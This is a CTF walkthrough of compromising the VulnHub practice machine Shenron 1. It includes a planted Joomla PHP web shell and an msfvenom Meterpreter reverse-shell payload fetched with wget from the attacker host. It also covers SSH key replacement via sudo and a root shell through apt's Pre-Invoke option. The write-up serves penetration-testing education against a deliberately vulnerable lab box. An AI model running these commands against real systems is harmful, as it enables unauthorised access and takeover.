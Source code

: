 ```yaml
---
title: CTF Walkthrough for VulnHub Machine Shenron 1
date: 2024-09-03 00:00:00 +0300
categories: [Walkthrough, CTF]
tags: [Vulnhub, Writeup, Joomla]   
image:
   path: /assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/box-shenron1.png
---
```


## Introduction
Greetings everyone, in this walkthrough, we will talk about Shenron 1 which is the first machine of the Vulnhub Shenron series machines. This walkthrough is not only meant to catch the flag but also to demonstrate how a penetration tester will approach this machine in a real-world assessment.
This machine was set up using VirtualBox as recommended by the creator and the Network configuration was changed to 'Nat Network'.
### Machine Description
Name: Shenron 1<br>
Goal: Get two flags<br>
Difficulty: Beginner to Intermediate<br>
Operating System: Linux<br>
Download link: [Shenron-1](https://download.vulnhub.com/shenron/shenron-1.ova)<br>
### Tools used
1) Nmap<br>
2) Netcat<br>
3) ffuf
4) Metasploit Framework<br>
### Environment Set up
To ensure success as a penetration tester, staying organised is crucial. Proper organisation streamlines documentation and tracking of progress. In this workshop, we will create a directory tree to systematically manage our work, with detailed descriptions of each directory's purpose available here.
![Working Dir](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/working-dir.png)

## Reconnaissance
As in every penetration test, we need to identify our target on the network. We can do this by launching a quick host discovery scan against the network using Nmap. To perform the host verification we need to know our current subnet. We can perform these using the commands below:<br>
Current subnet identification: ```ip a```<br>
Host discovery scan: ```sudo nmap -sn 10.0.2.15/24```<br><br>
![Host Identification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/target-dis.png)

After identifying our target on the network we need to know what services are run by our target to create different possible attack scenarios. We can start a service scan on our target using Nmap with the command below.<br> ```sudo nmap -sV -sC  10.0.2.4 -oA services-dis```<br><br>
![Service Scan](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/service-scan.png)

We can see that the target is running both an SSH and an Apache web server. Web applications are known to contain many vulnerabilities so let's browse to the web application for further analyses. Unfortunately for us, we fall on the default Apache index page.
![Wep App Index Page](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web%20app%20index%20page.png)

In a real-world scenario, the default page might be left temporarily during the setup or testing phases of the web application. So let's try to find any hidden directories in the web application. I performed the fuzzing using **ffuf**, but you can use any tool of your preference. Here’s the command I used:<br>
```ffuf -ic -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://10.0.2.4/FUZZ```<br><br>
![Directory Fuzzing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/dir-fuzzing-1.png)

The fuzzing process uncovers two interesting directories which are the *test* and *joomla*. The directory Joomla already gives us a hint that the web application may be running the well-known Joomla CMS. Let's browse these directories chronologically as they are in our results. Upon browsing to the test directory, we noticed that directory listing is enabled, which constitutes a vulnerability since it appears to expose a file containing passwords. We should document this finding in our Findings folder.
![Directory Listing](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/directory-listing.png)

Accessing the file reveals a pair of credentials for an admin user. We can keep a note of these credentials in a file.
![File Accessed](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-accessed-1.png)

Nex let's visit the second directory *joomla* uncovered during our fuzzing. We can see that our target runs the well-known Joomla CMS. Remember, we discovered credentials hidden in the comments of the password file. Let's use these credentials to log in to the Joomla administrative interface, which is typically located in the administrator directory.
*NB: By default, Joomla's administrative interface is accessed through the administrator directory.*
![Joomla Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/joomla-login.png)

## Exploitation
Great, we successfully logged in as the admin. Next, we move to Extensions -> Templates -> Templates where attempt to add a PHP shell to a PHP file in an unused template. Here, I chose the protostar template and added a basic PHP shell ``` system($_GET["cmd"]);``` to the error.php file.
*NB: In a real-world penetration test try to use a more complicated name for the GET parameter value such as a hash. This is because anyone can access that file hence if a common name is used, attackers may bruteforce it and also use it to establish their foothold in your client's environment.*
![Template Modification](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/template-modification.png)
After modifying the template we can now execute commands on our target by browsing to the page and specifying the command we want to run as the GET parameter's value.<br> 
```curl http://10.0.2.4/joomla/templates/protostar/error.php?cmd=id```<br><br>
![RCE Test](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/rce-test.png)

This web shell is good but to facilitate our work, we will employ Meterpreter, a sophisticated payload integrated into the Metasploit Framework. To use a meterpreter on our target we first need to craft one using the msfvenom tool from the Metasploit Framework.<br>
```msfvenom -p linux/x64/meterpreter_reverse_tcp  LHOST=10.0.2.15 LPORT=4444 -f elf > update.elf```<br><br>
![Payload Crafting](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-crafting-1.png)
After crafting the executable payload we then start a small HTTP server to transfer the payload to our target using Python3 http.server module.
![Python Server](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/python-server-1.png)

We then use wget on the target to download the payload to the /tmp directory.<br> ```wget http://10.0.2.15/update.elf -O /tmp/update.elf```<br><br>
![Download Operation](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/download-operation-1.png)
Before executing the payload, we need to configure and run a listener in Metasploit.
![Metasploit Set Up](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/metasploit-set-up.png)
After starting the listener we now give execution permission to our payload and execute it.
![Payload Execution](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/payload-exec-1.png)
Upon going back to the listener, we can see that the listener caught a reverse shell connection from the target.
![Catching Shell](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/catching-shell-1.png)
Web applications usually contain a configuration file that stores database credentials. These credentials are used by the web application to connect to the database server. It's a good habit to search for this configuration file which is usually located in the web root directory. On this machine, the file is named web.config.txt. Reading its contents reveals the credentials for the database user.<br> *NB: The name of this file may change depending on the preference of the web administrator.*
![Web Config File](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/web-root-dir.png)
![DB User Creds](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/db-creds.png)
We see that the credentials belong to the user Jenny who is also a user on the target machine. Let's try to authenticate as Jenny.<br>
*Tip: To enumerate users on the system just cat the content of the /etc/passwd file*
![User Auth](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-auth-1.png)

## Post Exploitation
At this stage in our CTF assessment, we have identified that the user is vulnerable to password reuse. Using this password, we can now check if the user has any sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-1.png)

Great, the user Jenny can perform copy operations by impersonating Shenron. Since we observed an SSH service running during our service enumeration, let's use the sudo privileges to replace Shenron's SSH key. To do this, I first generate a key pair \(private, public\) on my attack host and upload the public key using the same method used above but you may decide to upload it using our powerful meterpreter.
![SSH Key Gen](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-gen-1.png)
After uploading the public key I replaced the **authorized_keys** file in Shenron's **.ssh** directory by impersonating Shenron using our sudo privileges and then afterward I used the private key to log in as Shenron.
![SSH Key Replace](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-key-replacement-1.png)
![SSH Login](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/ssh-login-1.png)
We successfully logged in as Shenron we can now use this new account to read the user's flag and further the enumeration process of the system.
![User Flag](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/user-flag.png)
Some users tend to store their passwords in specific files so, let's try to enumerate all files having the string 'password' in their names with the command below.<br> ```find / -iname *password* 2>/dev/null```.<br> We got a hit in the /var/opt directory. Reading the content of the files exposes to us what seems like Shenron's password.
![File Enum](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/file-enum-2.png)
We can now use that password to read Shenron's sudo privileges.
![Sudo Right](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/sudo-right-2.png)
We observe that this account can be used to run apt with root privilege. Let's browse to [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to see how we can exploit this right to obtain a root shell. the command GTFOBins provides us with a way of exploiting this privilege but I chose to use the command below. <br>```sudo /usr/bin/apt update -o APT::Update::Pre-Invoke::=/bin/sh```<br><br>
![Root Access](/assets/img/posts/walthrough/vulnhub/2024-09-02--shenron%3A1/root-access.png)<br>
Great, we have obtained root access to the machine, having this access means we own the machine and can do whatever we want. 

## Conclusion
Congratulations, In this walkthrough, you learned how a seemingly simple file listing vulnerability, which exposes sensitive information, can be exploited to take over a machine. We demonstrated how unauthorized access to file directories and the disclosure of sensitive files can provide critical information that attackers can use to escalate privileges and gain full control of the system. This walkthrough highlighted the importance of securing file listings and properly managing access controls to prevent such vulnerabilities from being exploited.. In a real-world assessment, the last step will be to gather our findings and draft a report for our clients. Thanks for following up on this walkthrough.
